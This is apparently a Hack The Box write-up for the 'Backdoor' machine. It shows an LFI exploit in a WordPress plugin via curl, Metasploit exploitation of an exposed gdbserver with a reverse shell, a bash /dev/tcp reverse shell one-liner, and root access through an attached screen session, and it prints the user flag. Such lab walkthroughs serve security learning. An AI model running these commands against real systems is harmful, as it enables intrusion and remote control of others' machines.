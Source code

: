 ```yaml
---
title: "Backdoor from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Backdoor from HTB
`nmap`gave this:
```bash
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp  open     waste?
```

accessing the site we see that it's running on `wordpress` you can scan plugins with `wpscan`and also can see it if it is not hidden in `/wp-content/plugins`
There you will see `ebook-download`. This means `ebook-download`is used
Access that plugin and in `readme.txt`there is version of that plugin `1.1` which is exploitable `LFI`
see what users are there
```bash
curl 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd'
/etc/passwd/etc/passwd/etc/passwd

root:x:0:0:root:/root:/bin/bash

user:x:1000:1000:user:/home/user:/bin/bash

<script>window.close()</script>
```

learn what is running on `1337 port `with `/proc/{PID}/cmdline`
```bash
for i in $(seq 0 1000); do curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/${i}/cmdline;done > pid-enum

# 20 minutes after

</script>/proc/818/cmdline/proc/818/cmdline/proc/818/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done<script>window.close()
```
This means on `1337`port `gdb-server`is running
>exploit
>https://www.exploit-db.com/exploits/50539

we'll use `msfdb`
```bash
$ sudo msfdb run
msf6 > search gdb

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/gdb/gdb_server_exec               2014-08-24       great      No     GDB Server Remote Payload Execution
   1    \_ target: x86                                .                .          .      .
   2    \_ target: x86_64                             .                .          .      .
   3    \_ target: ARMLE                              .                .          .      .
   4    \_ target: AARCH64                            .                .          .      .
   5  exploit/linux/local/ptrace_sudo_token_priv_esc  2019-03-24       excellent  Yes    ptrace Sudo Token Privilege Escalation


Interact with a module by name or index. For example info 5, use 5 or use exploit/linux/local/ptrace_sudo_token_priv_esc

msf6 > use 0
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/gdb/gdb_server_exec) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/gdb/gdb_server_exec) > set RHOSTS 10.10.11.125
RHOSTS => 10.10.11.125
msf6 exploit(multi/gdb/gdb_server_exec) > set RPORT 1337
RPORT => 1337
msf6 exploit(multi/gdb/gdb_server_exec) > set payload payload/linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
target => 1
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.16.6:1234
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Command shell session 1 opened (10.10.16.6:1234 -> 10.10.11.125:54886) at 2024-08-21 02:10:26 +0400

ls
user.txt

bash -c 'bash -i >& /dev/tcp/10.10.16.6/4444 0>&1' # to get reverse shell
```
***
User Flag is: 6527b58e718c5bd7587f743d81d177fd
***
```bash
$ ps -aux


root         818  0.0  0.0   2608  1632 ?        Ss   20:27   0:00 /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
root         822  0.0  0.0   2608  1604 ?        Ss   20:27   0:01 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done

```
with that we assume that `screen named root`is already running so let's simply attach to it:
```bash
screen -r root/ #tap enter twice
root@Backdoor:~#
```
![](/assets/images/Screenshot from 2024-08-21 02-27-21.png)
